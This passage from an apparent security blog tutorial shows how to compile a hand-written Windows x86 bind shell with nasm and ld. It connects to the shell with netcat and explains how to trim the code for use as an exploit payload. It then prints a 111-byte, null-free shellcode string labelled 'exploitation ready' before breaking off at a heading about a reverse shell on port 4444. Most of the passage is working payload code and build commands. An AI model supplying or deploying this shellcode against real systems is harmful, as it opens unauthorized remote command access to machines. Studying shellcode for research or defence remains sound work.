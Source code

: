 ### Compilation

Time to compile this thing. This can be done on Windows by downloading the following tools: 

+ <a href="http://mingw.org/category/wiki/download">ld.exe</a>
+ <a href="https://www.nasm.us/pub/nasm/releasebuilds/">nasm.exe</a>

```nasm
> nasm.exe -f win32 -o bind.obj bind.asm
> ld.exe bind.obj -o bind.exe
```

Or you can cross-compile this on a Linux box:
```nasm
$ nasm -f win32 bind.asm -o bind.o
$ ld -m i386pe bind.o -o bind.exe
```

### Verify standalone executable

Simply double click on the executable and a cmd terminal will appear.  
![_config.yml]({{ site.baseurl }}/images/bindshell2.png)

Connect to it using netcat and we got a shell!  
![_config.yml]({{ site.baseurl }}/images/bindshell1.png)

If we were going to use the shellcode as a payload for an exploit, then we can easily reduce the size by removing the code to load the socket library (LoadLibraryA()) and the socket startup call (WSAStartup()). This is because the target vulnerable software probably has already loaded the ws2_32.dll library and ran a socket startup call. This can be confirmed with the following command, which will display all loaded DLLs by the executable:

```nasm
> tasklist.exe /m /fi "imagename eq vulnerable.exe"
```

### Exploitation ready bind shell (111 bytes)

Compiled without LoadLibraryA() and WSAStartup().

```bash
$ for i in $(objdump -d shell.exe | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
\x31\xc0\x50\x50\x50\x50\x6a\x01\x6a\x02\xb8\x6a\x8b\xab\x71\xff\xd0\x89\xc3\x31
\xc0\x50\xb8\x02\x01\x11\x5c\xfe\xcc\x50\x89\xe0\x6a\x10\x50\x53\xb8\x80\x44\xab
\x71\xff\xd0\x6a\x01\x53\xb8\xd3\x8c\xab\x71\xff\xd0\x31\xc0\x50\x50\x53\xb8\x40
\x10\xac\x71\xff\xd0\x89\xc3\xba\x63\xd3\x81\x7c\x53\x6a\xf6\xff\xd2\x53\x6a\xf5
\xff\xd2\x53\x6a\xf4\xff\xd2\xc7\x44\x24\xfb\x41\x63\x6d\x64\x8d\x44\x24\xfc\x8d
\x64\x24\xfc\x50\xb8\xc7\x93\xc2\x77\xff\xd0
```

111 bytes. No null bytes. Beautiful, isn't it?


# Building the reverse shell (port 4444)

